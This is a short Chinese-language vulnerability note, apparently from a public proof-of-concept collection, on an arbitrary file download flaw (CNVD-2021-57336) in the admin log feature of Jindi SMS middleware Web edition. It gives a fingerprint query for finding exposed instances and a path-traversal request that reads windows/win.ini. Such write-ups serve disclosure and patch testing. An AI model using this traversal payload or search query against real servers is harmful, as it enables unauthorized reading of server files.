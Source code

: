 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

# 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## 网络测绘

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](/images/202205251508287.png)

存在漏洞的位置为 日志下载

![](/images/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](/images/202205251508651.png)

